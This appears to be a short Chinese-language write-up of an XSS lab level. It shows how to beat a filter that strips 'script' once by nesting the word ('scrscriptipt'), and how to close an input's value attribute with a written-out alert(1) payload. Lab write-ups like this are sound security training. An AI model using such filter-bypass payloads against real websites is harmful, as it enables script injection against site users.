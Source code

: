 这个地方是我们要输入的，

```
<script>被过滤
我们要更换一下，采用
<scrscriptipt>
因为script被过滤，输入就会被删除，如果输入scrscriptipt，中间被删除，两边又重新构建出了script
```

![image-20240124115105909](照片/image-20240124115105909.png)

我们要将他闭合掉

![image-20240124115257205](照片/image-20240124115257205.png)

我们要改为

```
"><scrscriptipt>alert(1)</scrscriptipt><"
```

![image-20240124115421968](照片/image-20240124115421968.png)

```
<input name="keyword" value="输入内容">

<input name="keyword" value=""> <script>alert(1)</script><"
第一个"和前面的value="闭合，>和前面的<input 中的<闭合，最后的<"和">闭合

```

输入，出现弹框

![image-20240124115757172](照片/image-20240124115757172.png)
